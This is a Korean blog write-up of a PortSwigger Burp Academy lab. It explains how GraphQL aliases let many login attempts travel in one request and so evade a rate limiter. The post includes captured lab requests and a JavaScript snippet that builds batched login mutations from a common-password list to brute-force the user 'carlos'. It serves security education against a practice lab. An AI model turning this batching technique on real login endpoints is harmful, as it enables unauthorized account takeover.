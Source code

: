 ```yaml
---
layout: post
title: "Burp Academy-GraphQL API 관련 취약점: Bypassing GraphQL brute force protections"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, GraphQL]
toc: true
last_modified_at: 2023-11-16 09:50:00 +0900
---
```



# 개요
- GraphQL 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass
- 취약점 설명페이지: https://portswigger.net/web-security/graphql
- 난이도: PRACTITIONER (보통)

# 문제 개요
- 이 랩에 있는 로그인 기능에는 GraphQL API로 만들어져 있다. 
- 로그인 기능에는 시도횟수 제한이 있다. 
- 랩을 풀려면 시도회수 제한을 우회해서 브루트포스 공격을 성공시켜 carlos 유저로 로그인하면 된다. 
- 후보 패스워드 리스트는 주어져있다.

```
The user login mechanism for this lab is powered by a GraphQL API. The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.

To solve the lab, brute force the login mechanism to sign in as carlos. Use the list of authentication lab passwords as your password source.

We recommend that you install the InQL extension before attempting this lab. InQL makes it easier to modify GraphQL queries in Repeater.

For more information on using InQL, see Working with GraphQL in Burp Suite.
```

# 배경지식
## GraphQL aliases
- alias (에일리어스)라는 단어는 영단어로 가명을 의미한다. 
- GraphQL 오브젝트는 같은 이름으로 여러개의 프로퍼티를 포함할 수 없다. 예를들면 다음과 같은 쿼리는 `product`타입을 두번 리턴하기 때문에 GraphQL에세는 무효(invalid)한 쿼리이다. 

```gql
#Invalid query

query getProductDetails {
    getProduct(id: 1) {
        id
        name
    }
    getProduct(id: 2) {
        id
        name
    }
}
```

- alias (에일리어스)는 명시적으로 다른 이름을 지정함으로써 이 제한을 우회할 수 있다. 
- alias를 이용해서 동일한 타입의 여러 인스턴스를 하나의 요청으로 리턴할 수 있다. 이는 API 요청 회수를 효과적으로 줄일 수 있다. 
- 예를 들면 다음과 같다. product1, product2와 같은 식으로 다른 이름을 명시적으로 지정해주면 적법한 쿼리가 된다. 

```gql
#Valid query using aliases

query getProductDetails {
    product1: getProduct(id: "1") {
        id
        name
    }
    product2: getProduct(id: "2") {
        id
        name
    }
}

```

위 요청의 응답은 다음과 같이 된다. 

```

#Response to query

{
    "data": {
        "product1": {
            "id": 1,
            "name": "Juice Extractor"
            },
        "product2": {
            "id": 2,
            "name": "Fruit Overlays"
        }
    }
}
```

## aliases 를 사용해서 회수 제한을 우회하기(Bypassing rate limiting using aliases)
- alias 를 활용한 테크닉의 포인트는 **하나의 요청에 여러개의 쿼리를 포함할 수 있다**는 것이다. 
- 그렇다면 로그인 시도횟수 제한이 있는 엔드포인트에 대해서 한번에 여러개의 로그인시도 쿼리를 포함시키는 것으로 횟수 제한을 우회할 수 있을 것이다! 

# 풀이 
1. 로그인하는 부분을 살펴본다. 다음 요청과 응답이 관측된다. 

```http
POST /graphql/v1 HTTP/2
Host: 0aba00d80363ef3883d3d3500081003d.web-security-academy.net
Cookie: session=iu5T79019xvsssJwleg3IiCoxyQnAHGQ; session=RtpQCdJ3GSIvoagSmpv7o8qNskB2kf11
Content-Length: 189
Sec-Ch-Ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://0aba00d80363ef3883d3d3500081003d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aba00d80363ef3883d3d3500081003d.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

{"variables": {"input": {"password": "peter", "username": "wiener"}}, "query": "mutation login($input: LoginInput!) {\n    login(input: $input) {\n        token\n        success\n    }\n}"}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=qZrJU5LS5XhOr2sitroPmaK7aaQwszbf; Secure; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 113

{
  "data": {
    "login": {
      "token": "qZrJU5LS5XhOr2sitroPmaK7aaQwszbf",
      "success": true
    }
  }
}
```

2. 힌트를 통해서 브루트포스를 시도하는 GraphQL 쿼리를 생성해주는 자바스크립트 코드를 확인할 수 있다. 이를 웹 브라우저 콘솔에서 실행하면 GraphQL 쿼리가 클립보드에 카피된다. 

```js
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

3. 로그인 요청을 Repeater로 보낸다. 그리고 쿼리를 조금 수정한다. 

다음 쿼리에서 `login($input: LoginInput!)` 부분을 `login`으로 바꾼다. 

```
mutation login($input: LoginInput!) {
    login(input: $input) {
        token
        success
    }
}
```

4. 그리고 쿼리 부분을 카피된 쿼리로 교체하고 송신해본다. 그러면 브루트포스가 성공하고 다음과 같은 응답이 되돌아온다.

![브루트포스 공격](/images/burp-academy-graphql-4-1.png)

5. `success` 부분의 값이 true인 것을 찾아본다. 그러면 여러 쿼리 실행결과중에 하나만 true인 것을 알 수 있다. 이 쿼리의 password값을 사용해서 carlos 유저로 로그인하면 문제가 풀린다. 

![풀이 성공](/images/burp-academy-graphql-4-success.png)

